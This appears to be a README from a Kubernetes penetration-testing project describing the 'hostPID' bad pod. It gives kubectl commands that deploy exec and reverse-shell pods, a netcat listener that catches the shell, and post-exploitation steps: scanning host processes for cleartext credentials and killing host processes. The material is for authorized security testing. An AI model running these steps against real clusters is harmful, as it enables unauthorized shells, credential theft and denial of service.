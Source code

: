 # Bad Pod #5: hostPID 

There’s no clear path to get root on the node with only `hostPID`, but there are still some good post exploitation opportunities.  
*	**View processes on the host** – When you run ps from within a pod that has hostPID: true, you see all the processes running on the host, including processes running within each pod. 
*	**Look for passwords, tokens, keys, etc.** – If you are lucky, you will find credentials and you’ll be able to use them to escalate privileges within the cluster, to services supported by the cluster, or to services that cluster-hosted applications are communicating with. It is a long shot, but you might find a Kubernetes service account token or some other authentication material that will allow you to access other namespaces and eventually escalate all the way up to cluster admin. 
*	**Kill processes** – You can also kill any process on the node (presenting a denial-of-service risk), but I would advise against it on a penetration test!

## Table of Contents
- [Bad Pod #5: hostPID](#bad-pod-5-hostpid)
  - [Table of Contents](#table-of-contents)
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post exploitation](#post-exploitation)
  - [View all processes running on the host and look for passwords, tokens, keys, etc.](#view-all-processes-running-on-the-host-and-look-for-passwords-tokens-keys-etc)
  - [Also, you can also kill any process, but don't do that in production :)](#also-you-can-also-kill-any-process-but-dont-do-that-in-production-)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/pod/hostpid-exec-pod.yaml
kubectl exec -it hostpid-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/[RESOURCE_TYPE]/hostpid-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep hostpid-exec-[RESOURCE_TYPE]      
kubectl exec -it hostpid-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe hostpid-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
nc -nvlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostpid/[RESOURCE_TYPE]/hostpid-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/hostpid/pod/hostpid-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/pod/hostpid-exec-pod.yaml
kubectl delete pod hostpid-exec-pod
kubectl delete cronjob hostpid-exec-cronjob
```

# Post exploitation

## View all processes running on the host and look for passwords, tokens, keys, etc. 
```bash
ps -aux
...omitted for brevity...
root     2123072  0.0  0.0   3732  2868 ?        Ss   21:00   0:00 /bin/bash -c while true; do ./my-program --grafana-uername=admin --grafana-password=admin; sleep 10;done
...omitted for brevity...
```
Check out that clear text password in the ps output below! 

## Also, you can also kill any process, but don't do that in production :)
```
pkill -f "nginx" 
```

## Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# References and further reading: 

